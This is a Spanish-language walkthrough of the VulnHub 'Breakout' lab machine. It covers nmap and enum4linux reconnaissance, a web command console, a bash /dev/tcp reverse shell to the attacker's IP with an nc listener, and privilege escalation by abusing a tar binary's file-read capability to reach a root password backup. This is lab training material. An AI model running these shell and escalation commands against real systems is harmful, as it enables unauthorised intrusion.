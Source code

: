 # Breakout

- https://www.dcode.fr/brainfuck-language Pagina para desencriptar 

## Summary

- IP -> random 192.168.
- Ports -> TCP (80,139,445,10000,20000), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 80 -> Apache httpd 2.4.51
    - 139 -> Samba smbd 4.6.2
    - 445 -> Samba smbd 4.6.2
    - 10000 -> http Miniserv 1.981
    - 20000 -> http Miniserv 1.830

Cosas a tomar en cuenta en una WebPage:
	- Errores de codigo, dejan olvidada alguna cosa dentro de la pagina
	- Ctrl + u -> Para ver el codigo de la WebPage y encontrar alguna pista en todo su codigo
	- 


## Recon
- **ifconfig** Para ver nuestra direccion IP '192.168.68.108'
- **nmap 192.168.68.1/24** Hacemos eso para que nmap pueda buscar direcciones IP en nuestro entorno, ademas de exponer sus servicios, asi como mostrar que tipo de dispositivo es y asi podremos encontrar la maquina de VulHub '192.168.68.111'

- **nmap -sV -p- 192.168.68.111** 
	- sV -> Detectamos la version y los servicios activos 
	- -p- ->Escaneo de todos los puertos TCP

Encontramos en la pagina web por el puerto 80 en su codigo fuente una encriptacion, por lo que nos disponemos a desencriptar.
Ahora nos disponemos a verificar los otros dos puertos http que son el 10000 y 20000 en la WebPage

Miramos que en el puerto 20000 tenemos un login, por lo que tendriamos la passwd pero nos falta el usuario. Por lo que nos disponemos a hacer enumeracion de la sigueinte manera.

- **enum4linux -a 192.168.68.111** Colocamos la direccion IP de la maquina victima y hacemos la enumeracion de datos, informacion, sesiones, etc...
Encontramos un posible usuari llamado Cyber

Una vez dentro de la pagina, nos ponemos a inspeccionarla para que ver como podemos encontrar, en esta maquina un comando Shell (cmd). Para esta maquina existen dos formas de ejecutar comandos, la primera es con el simbolo cmd y la segunda es por una pestana de la misma pagina, en donde nos permite la ejecucion de los comandos.

Ahi podemos colocar diferentes comandos para poder encontrar informacion valiosa.

## User
Una vez utilizando esa cmd, podemos hacer una revershell a nuestra maquina de atacante de la siguiente manera
Podemos observa la flag del usuario desde esa misma consola de la pagina web

- **bash -c 'bash -i >& /dev/tcp/192.168.68.108/443 0>&1'** En la cdm de la pagina web agregamos el comando de la ReverShell
- **nc -nlvp 443** Este comando en nuestra maquina de atacante para recibir la revershell de la maquina victima

- **cat /etc/issue** Para ver informacion del sistema
- **uname -a** Ver la version de Linux

## Root
- **find / -perm 4000 -type 2>/dev/null** Nos filtrara archivos binarios con permisos 
- **find / -perm 4000 -type f 2>/dev/null** Nos filtrara archivos binarios con permisos (f=files) buscara archivos files con permisos S
- **getcap -r / 2>/dev/null** Verificar los permisos de los archivos encontrados 'capabilities'
	- Encontramos ahi el **'/homeCyber/tar cap_dac_read_search=ep'**

* **cd /var/baskups** Para ir al directorio del servidor mismo y ver las passwd 
	* **ls -la** Para ver todos los archivos dentro de ese dir y ahi encontramos el '.old_pass.bak' que serian los passwd de respaldo antiguas

Nos regresamos al dir principal de Cyber para poder mover el archivo '.old_pass.bak' pero ese archivo solo lo puede leer root, por lo que ocuparemos el siguiente comando. 

- **./tar -cvf passwd.tar /var/backups/.old_pass.bak** Crearemos el archivo llamado 'passwd.tar' y el contenido de la ruta que queremos mover
- **tar -xf passwd.tar** Para hacer que nos abra el archivo que movimos y nos extrae un archiv **var**
- **cd var** Nos movemos dentro de var
	- **cd baskups** Nos movemos a backups y encontraremos otro archivo llamado '.old_pass.bak'
	- **cat .old_pass.bak** Para leer el archivo y nos muestra una passwd

- **su root** Para cambiar de usuario, en este caso es root y le ponemos la passwd que hemos encontrado
Ahora buscamos la flag de root.txt 